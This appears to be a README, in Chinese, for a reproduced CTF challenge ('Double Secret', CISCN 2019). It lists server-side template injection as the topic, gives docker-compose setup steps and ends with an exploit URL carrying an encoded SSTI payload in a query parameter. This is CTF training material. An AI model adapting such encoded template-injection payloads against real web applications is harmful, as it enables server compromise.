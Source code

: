 # CISCN 2019 华东南  Double Secret

## 题目详情

- **2019 CISCN 2019 华东南 Double Secret**

## 感谢
华东南赛区的南溟师傅备份题目并提供给我复现。

## 考点

- SSTI

## 启动

	docker-compose up -d
	open http://127.0.0.1:8083/

## Exp

http://web54.buuoj.cn/secret?secret=%2e%14%19%12%c3%ad%49%34%51%68%c2%91%c3%99%00%c2%ad%c2%8d%c3%89%c3%a6%0b%c2%ac%59%26%c2%b8%6d%c3%9f%49%58%c2%ac%76%c2%b6%6d%c3%9f%27%c3%a5%2e%c2%87%4c%c3%85%1b%c3%b4%3b%c3%9b%44%c2%92%c3%84%c3%99%39%5e%c2%80%52%c3%a7%c3%b2%40%60%63%c3%ac%64%78%c2%8f%2b%0a%c2%8d%c3%b7%58%14%c3%b4%c2%90%51%c3%b3%09%27%59

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）
